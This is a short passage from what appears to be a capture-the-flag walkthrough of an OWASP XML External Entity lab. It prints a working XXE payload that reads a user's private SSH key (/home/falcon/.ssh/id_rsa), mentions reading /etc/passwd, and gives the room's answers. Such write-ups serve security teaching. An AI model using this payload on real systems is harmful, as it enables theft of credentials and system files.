    > No answer needed

#### XML External Entity - Exploiting

1. Try to display your own name using any payload.

   Just submit the first payload shown in the previous task and replace accoringly.

   ![screenshot_name](/room_owasp/screenshots/day04/name.png?raw=true)

   > No answer needed

2. See if you can read the /etc/passwd.

   This part was done in the previous task.

   > No answer needed

3. What is the name of the user in /etc/passwd?

   > falcon

4. Where is falcon's SSH key located?

   Payload:

   ```
   <?xml version="1.0"?>
   <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
   <root>&read;</root>
   ```

   > /home/falcon/.ssh/id_rsa
